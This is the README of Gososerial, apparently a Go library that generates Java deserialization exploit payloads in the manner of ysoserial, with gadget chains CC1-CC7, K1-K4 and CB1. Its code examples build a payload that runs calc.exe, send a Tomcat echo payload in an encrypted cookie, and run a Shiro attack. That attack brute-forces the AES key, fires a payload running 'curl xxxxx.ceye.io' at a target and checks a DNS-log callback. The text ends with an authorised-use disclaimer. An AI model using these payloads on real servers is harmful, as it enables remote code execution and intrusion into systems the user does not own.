 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具

- 从二进制层面解析，无需java环境，无需下载ysoserial.jar
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

- 支持K1和K2的TomcatEcho，HTTP头可自行取名

## Quick Start

- download and import

```shell
go get github.com/EmYiQing/Gososerial
```

- example

```go
package main

import (
	"fmt"
	gososerial "github.com/EmYiQing/Gososerial"
)

func main() {
	var payload []byte
	payload = gososerial.GetCC1("calc.exe")
	fmt.Println(payload)
}
```

- how to use tomcat echo

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Testecho: expr 10 '*' 10 -> Testecho: expr 10 '*' 10
	// Testcmd: expr 10 '*' 10 -> Testcmd: 100
	payload := gososerial.GetCCK2TomcatEcho("Testecho", "Testcmd")

	req.Cookie = AESEncrypt(payload)
	req.Header["Testecho"] = "gososerial"
	req.Method = "POST"
	resp := httputil.sendRequest(req)

	if resp.Header["Testecho"] == "gososerial" {
		log.Info("find cck2 tomcat echo")
	}
}
```

- shiro scan example

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != nil {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## 命令行 (beta)

- CommonsCollections1

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)

- 支持列表

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## 感谢

参考xray作者phith0n和koalr师傅的代码

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

**ysoserial**: https://github.com/frohoff/ysoserial

**koalr**: https://github.com/zema1/ysoserial

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的
